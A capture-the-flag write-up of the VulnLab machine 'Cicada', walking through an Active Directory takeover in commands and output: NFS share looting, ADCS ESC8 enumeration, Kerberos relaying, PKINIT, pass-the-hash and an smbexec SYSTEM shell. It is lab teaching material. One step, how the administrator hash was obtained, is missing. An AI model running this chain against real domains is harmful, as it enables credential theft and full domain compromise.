

Cicada is a machine on the VulnLab platform with medium difficulty. This machine, which involves ESC8 and Kerberos relaying, is quite interesting


Let's start with a classic Nmap scan:

```zsh
➜  cicada nmap -p- --min-rate 1000 10.10.79.184 -oN port.txt 
# Nmap 7.95 scan initiated Tue Apr 22 15:24:56 2025 as: /usr/lib/nmap/nmap --privileged -p- -oN port.txt 10.10.79.184
Nmap scan report for cicada.vl (10.10.79.184)
Host is up (0.091s latency).
Not shown: 65509 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2049/tcp  open  nfs
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49672/tcp open  unknown
49677/tcp open  unknown
57742/tcp open  unknown
57778/tcp open  unknown
57795/tcp open  unknown
57914/tcp open  unknown
```

We immediately noticed an NFS share and decided to mount it to check its contents

```zsh
➜  cicada showmount -e cicada.vl
Export list for cicada.vl:
/profiles (everyone)
```

Let's mount it.

```zsh             
➜  cicada sudo mount -t nfs cicada.vl:/profiles share
```

```zsh 
➜  share ls
Administrator  Daniel.Marshall  Debra.Wright  Jane.Carter  Jordan.Francis  Joyce.Andrews  Katie.Ward  Megan.Simpson  Richard.Gibbons  Rosie.Powell  Shirley.West
```

Instead of checking them one by one, we use the tree command to get an overview of all the files.

```zsh
➜  share sudo tree
.
├── Administrator
│   ├── Documents
│   │   ├── $RECYCLE.BIN
│   │   │   └── desktop.ini
│   │   └── desktop.ini
│   └── vacation.png
├── Daniel.Marshall
├── Debra.Wright
├── Jane.Carter
├── Jordan.Francis
├── Joyce.Andrews
├── Katie.Ward
├── Megan.Simpson
├── Richard.Gibbons
├── Rosie.Powell
│   ├── Documents
│   │   ├── $RECYCLE.BIN
│   │   │   └── desktop.ini
│   │   └── desktop.ini
│   └── marketing.png
└── Shirley.West

16 directories, 6 files
```
We found that a password was visible in a photo. We really appreciate such irresponsible behaviors on shares like this. :)


<figure><figcaption></figcaption></figure>


```zsh
➜  cicada netexec smb cicada.vl -u Rosie.Powell -p <REDACTED>
SMB         10.10.119.56    445    10.10.119.56     [*]  x64 (name:10.10.119.56) (domain:10.10.119.56) (signing:True) (SMBv1:False)
SMB         10.10.119.56    445    10.10.119.56     [-] 10.10.119.56\Rosie.Powell:<REDACTED> STATUS_NOT_SUPPORTED 
➜  cicada netexec smb cicada.vl -u Rosie.Powell -p <REDACTED> -k
SMB         cicada.vl       445    cicada           [*]  x64 (name:cicada) (domain:vl) (signing:True) (SMBv1:False)
SMB         cicada.vl       445    cicada           [-] vl\Rosie.Powell:<REDACTED> [Errno Connection error (VL:88)] [Errno -2] Name or service not known
➜  cicada netexec ldap cicada.vl -u Rosie.Powell -p <REDACTED> -k
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [*]  x64 (name:DC-JPQ225.cicada.vl) (domain:cicada.vl) (signing:True) (SMBv1:False)
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [+] cicada.vl\Rosie.Powell:<REDACTED>
```

As seen, we couldn't authenticate over SMB, even using the -k option. However, we managed to authenticate via LDAP and obtained a TGT ticket for it


```zsh
➜  cicada impacket-getTGT cicada.vl/Rosie.Powell@cicada.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Saving ticket in Rosie.Powell@cicada.vl.ccache
➜  cicada export KRB5CCNAME=Rosie.Powell@cicada.vl.ccache 
```

We saw the CertEnroll folder in the share. This indicates that ADCS is likely installed on this machine as well.


```zsh
➜  cicada impacket-smbclient cicada.vl/Rosie.Powell@DC-JPQ225 -k -no-pass   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
CertEnroll
IPC$
NETLOGON
profiles$
SYSVOL
```

We verified this with Netexec.

```zsh
➜  cicada netexec ldap cicada.vl -u Rosie.Powell -p Cicada123 -k -M adcs
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [*]  x64 (name:DC-JPQ225.cicada.vl) (domain:cicada.vl) (signing:True) (SMBv1:False)
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [+] cicada.vl\Rosie.Powell:Cicada123 
ADCS        cicada.vl       389    DC-JPQ225.cicada.vl [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        cicada.vl       389    DC-JPQ225.cicada.vl Found PKI Enrollment Server: DC-JPQ225.cicada.vl
ADCS        cicada.vl       389    DC-JPQ225.cicada.vl Found CN: cicada-DC-JPQ225-CA
```

Then, we used Certipy-AD and noticed the ESC8 vulnerability. Despite trying on the Linux side, I couldn't succeed in exploiting it. For this, I used my own Commando VM (Windows) moving forward

```zsh
➜  cicada certipy-ad find -u Rosie.Powell -vulnerable -stdout -k -no-pass -target DC-JPQ225 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'cicada-DC-JPQ225-CA' via CSRA
[!] Got error while trying to get CA configuration for 'cicada-DC-JPQ225-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'cicada-DC-JPQ225-CA' via RRP
[*] Got CA configuration for 'cicada-DC-JPQ225-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : cicada-DC-JPQ225-CA
    DNS Name                            : DC-JPQ225.cicada.vl
    Certificate Subject                 : CN=cicada-DC-JPQ225-CA, DC=cicada, DC=vl
    Certificate Serial Number           : 69E85693900661A04FCC9DA3C368321A
    Certificate Validity Start          : 2025-04-23 04:25:12+00:00
    Certificate Validity End            : 2525-04-23 04:35:12+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CICADA.VL\Administrators
      Access Rights
        ManageCertificates              : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        ManageCa                        : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        Enroll                          : CICADA.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
Certificate Templates                   : [!] Could not find any certificate templates
```

Of course, checking the MachineAccountQuota is important.

```zsh
➜  cicada netexec ldap cicada.vl -u Rosie.Powell -p Cicada123 -k -M maq         
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [*]  x64 (name:DC-JPQ225.cicada.vl) (domain:cicada.vl) (signing:True) (SMBv1:False)
LDAP        cicada.vl       389    DC-JPQ225.cicada.vl [+] cicada.vl\Rosie.Powell:Cicada123 
MAQ         cicada.vl       389    DC-JPQ225.cicada.vl [*] Getting the MachineAccountQuota
MAQ         cicada.vl       389    DC-JPQ225.cicada.vl MachineAccountQuota: 10
```


What we did here was import the .ovpn file provided by VulnLab into the OpenVPN client and join our VM to the cicada.vl domain.  
**Note**: 
> For this, it's important to change the DNS address of the OpenVPN Ethernet interface to match the DNS address of the cicada machine.


Here, we will use [RemoteKerbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay), a tool that automates the entire process. It has not been released yet, so we need to build it using Visual Studio.


The command is like the one in the photo below:


<figure><figcaption></figcaption></figure>

Next, we transfer the PKCS12 certificate to Linux and encode it using base64


```zsh
➜  cicada cat cicada.pkcs12 | base64 -d > cert_auth
```

We can authenticate via PKINIT:

```zsh
➜  cicada certipy-ad auth -pfx cert_auth -dc-ip 10.10.112.64 -domain cicada.vl
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: dc-jpq225$@cicada.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc-jpq225.ccache'
[*] Trying to retrieve NT hash for 'dc-jpq225$'
[*] Got hash for 'dc-jpq225$@cicada.vl': aad3b435b51404eeaad3b435b51404ee:9a7488fcd7aa4bb34eaac4841115dc9a
```

Then, we find that we have obtained the krbtgt user's ccache file

```zsh
➜  cicada export KRB5CCNAME=dc-jpq225.ccache
```

```zsh
➜  cicada klist
Ticket cache: FILE:dc-jpq225.ccache
Default principal: dc-jpq225$@CICADA.VL

Valid starting     Expires            Service principal
04/26/25 18:05:36  04/27/25 04:05:36  krbtgt/CICADA.VL@CICADA.VL
	renew until 04/27/25 18:05:26
```


```zsh
➜  cicada impacket-getTGT cicada.vl/administrator@DC-JPQ225 -hashes :85a0da53871a9d56b6cd05deda3a5e87
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in administrator@DC-JPQ225.ccache
```

```zsh
➜  cicada impacket-smbexec cicada.vl/administrator@dc-jpq225 -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```
That's it!


